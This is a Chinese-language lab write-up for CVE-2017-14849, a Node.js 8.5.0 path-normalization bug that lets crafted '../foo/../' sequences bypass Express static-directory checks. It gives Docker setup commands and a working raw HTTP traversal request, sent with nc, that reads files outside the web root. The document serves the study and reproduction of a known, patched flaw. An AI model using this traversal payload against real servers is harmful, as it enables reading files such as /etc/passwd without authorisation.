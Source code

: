 # Node.js 目录穿越漏 (CVE-2017-14849)

## 影响版本

漏洞出现在Node.js v8.5.0, 在 v8.6 中就进行了修复。
+ Node.js 8.5.0 + std/path/normalize
+ Node.js 8.5.0 + Express 3.19.0-3.21.2
+ Node.js 8.5.0 + Express 4.11.0-4.15.5

## 漏洞价值

+ 读取任意目录的文件

## 漏洞原理

参考文档：
+ https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
+ https://security.tencent.com/index.php/blog/msg/121

Node.js 8.5.0 对目录进行normalize操作时出现了逻辑错误，导致向上层跳跃的时候（如../../../../../../etc/passwd），在中间位置增加foo/../（如../../../foo/../../../../etc/passwd），即可使normalize返回/etc/passwd，但实际上正确结果应该是../../../../../../etc/passwd。
```javascript
// -> path = '/etc/passwd';
const path = path.normalize('../../../foo/../../../../etc/passwd');
```
express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于normalize函数。比如，express在判断path是否超出静态目录范围时，就用到了normalize函数，上述BUG导致normalize函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，normalize的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

## 漏洞复现

### 编译及运行环境：

```bash
docker build -t cve-2017-14849:latest .
docker run -p 3000:3000 -d cve-2017-14849
```

### 漏洞利用

发送如下数据包，即可读取Dockfile文件

```bash
nc your-ip 3000

GET /static/../../../a/../../../../srv/exploit/Dockfile HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```